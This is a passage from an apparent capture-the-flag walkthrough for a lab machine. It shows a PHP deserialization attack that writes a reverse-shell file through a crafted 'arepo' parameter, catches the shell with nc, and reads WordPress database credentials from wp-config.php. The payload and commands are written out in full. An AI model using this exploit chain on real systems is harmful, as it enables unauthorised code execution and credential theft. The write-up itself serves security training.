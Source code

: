 now we run our php file:
php tenet.php

that will print the url encoded serialized var:
```
$ php tenet.php ; echo;
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rev.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.?.?%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```



So we go to the url with that var as `arepo`:

```
curl http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rev.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.?.?%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Now we start a nc for our reverse shell:

```
nc -lvnp 4444
```

Now we can go to `http://10.10.10.223/rev.php` and check our nc terminal!

```
/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)

Connection from 10.10.10.223 42970 received!

```
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User

Right away we see `wordpress/wp-config.php`

```php
// ** MySQL settings - You can get this info from your web host ** //

/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );


/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

